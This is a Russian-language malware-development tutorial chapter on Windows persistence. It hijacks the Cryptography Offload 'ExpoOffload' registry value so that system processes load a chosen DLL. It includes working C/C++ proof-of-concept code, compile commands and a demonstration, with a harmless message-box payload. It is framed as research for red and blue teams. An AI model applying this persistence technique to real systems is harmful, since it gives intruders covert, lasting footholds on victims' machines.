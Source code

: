 \newpage
\subsection{82. разработка вредоносного ПО: закрепление (persistence) - часть 16. Криптографические ключи реестра. Простой пример на C++.}

﷽

![pers](./images/76/2022-10-21_05-25.png){width="80%"}    

Эта статья является результатом моего собственного исследования одного из интересных трюков закрепления вредоносного ПО: через ключи реестра Cryptography.     

В процессе изучения реестра я наткнулся на интересный путь:     

`HKLM\Software\Microsoft\Cryptography\`     

И там есть такая функция `OffloadModExpo`. Если я правильно понимаю, эта функция используется для выполнения всех модульных возведений в степень как для операций с открытым, так и с закрытым ключом:     

![pers](./images/76/2022-10-21_05-45.png){width="80%"}    

Я не вдавался в слишком большие подробности, самой возможности поэкспериментировать с этим ключом и значением в реестре Windows мне достаточно. Поэтому я попробовал перехватить путь к этой DLL:     

`HKLM\Software\Microsoft\Cryptography\Offload` и его значение.    

### практический пример

Прежде всего, как обычно, создаем "вредоносную" DLL. Как обычно, просто `meow-meow` messagebox (`hack.c`):    

```cpp
/*
hack.c - вредоносная DLL
DLL hijacking через путь в реестре Cryptography
aвтор: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID 
lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-meow!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

Компилируем:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.c
```

![pers](./images/76/2022-10-21_05-20.png){width="80%"}    

И создаем Proof-of-Concept код для перехвата (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via
hijacking cryptography DLL path
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/21/malware-pers-16.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // reg path
  const char* path = "SOFTWARE\\Microsoft\\Cryptography\\Offload";

  // evil DLL
  const char* evil = "Z:\\2022-10-21-malware-pers-16\\hack.dll";

  // create key
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)path, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkey, 0);
  if (res == ERROR_SUCCESS) {
    // set registry key value
    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Cryptography\Offload" /v 
    // "ExpoOffload" /t REG_SZ /d "...\hack.dll" /f
    RegSetValueEx(hkey, (LPCSTR)"ExpoOffload", 0, REG_SZ, (unsigned char*)
    evil, strlen(evil));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Вот и все, что мне нужно для эксперимента.      

### демонстрация

Давайте посмотрим, как все работает на практике. Компилируем наш Proof-of-Concept код:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/76/2022-10-21_05-21.png){width="80%"}    


Затем, для чистоты эксперимента, проверяем ключи реестра на машине жертвы и удаляем ключи, если они существуют:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Cryptography\Offload" /s
```

![pers](./images/76/2022-10-21_05-23.png){width="80%"}    

Затем запускаем наш скрипт `pers.exe` и проверяем снова:     

![pers](./images/76/2022-10-21_05-24.png){width="80%"}    

Теперь попробую запустить что-нибудь. Например, открыть ссылку `https:\...` в браузере или воспользоваться строкой поиска.    

![pers](./images/76/2022-10-21_05-25_1.png){width="80%"}    

В процессе выполнения некоторых криптографических операций в фоне мы будем видеть все больше всплывающих окон.    

![pers](./images/76/2022-10-21_05-27.png){width="80%"}    

![pers](./images/76/2022-10-21_05-27_1.png){width="80%"}    

![pers](./images/76/2022-10-21_05-28.png){width="80%"}    

Кроме того, мне даже не удалось запустить `Process Hacker 2` для исследования ситуации.     

![pers](./images/76/2022-10-21_06-09.png){width="80%"}    

Затем я восстановил снимок виртуальной машины и запустил `Procmon` из sysinternals с следующими фильтрами:     

![pers](./images/76/2022-10-21_06-20.png){width="80%"}    

![pers](./images/76/2022-10-21_06-22.png){width="80%"}    

И в результате:     

![pers](./images/76/2022-10-21_06-24.png){width="80%"}    

![pers](./images/76/2022-10-21_06-25.png){width="80%"}    

Как можно видеть, на каком-то этапе моя "вредоносная" `meow-meow` DLL была загружена `svchost.exe`, `ProcessHacker.exe` и другими процессами.     

Таким образом, все сработало правильно. Идеально! =^..^=     

После завершения экспериментов восстанавливаем состояние реестра: 

![pers](./images/76/2022-10-21_05-33.png){width="80%"}    

Я не знаю, использовалась ли эта тактика каким-либо APT в дикой природе, но надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике, особенно при создании программного обеспечения, и добавит оружие в арсенал красных команд.

[OffloadModExpo](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa387021(v=vs.85))     
[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-21-malware-pers-16)     

